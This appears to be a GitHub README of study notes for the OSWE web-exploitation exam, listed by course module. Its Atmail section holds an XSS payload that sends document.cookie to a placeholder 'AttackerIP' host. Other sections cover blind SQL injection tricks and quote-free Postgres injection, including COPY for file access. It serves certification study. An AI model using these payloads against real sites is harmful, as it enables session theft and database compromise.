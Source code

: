 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql        //Restart MySQL<br>
    #tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    #nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    #systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    #echo "any message";<br>
    
4. Dump information about varaible<br>
    #var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    #grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    #var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    #mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    #mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    #!/usr/bin/python <br>
    #import zipfile <br>
    #from cStringIO import StringIO<br>

    #def build_zip():<br>
        #f = StringIO()<br>
        #z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        #z.writestr('folder/file.txt', 'secret')<br>
        #z.close()<br>
        #zip = open('zip.zip','wb')<br>
        #print f.getvalue()<br>
        #zip.write(f.getvalue())<br>
        #zip.close()<br>
    
    #build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    #sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
        
    

    
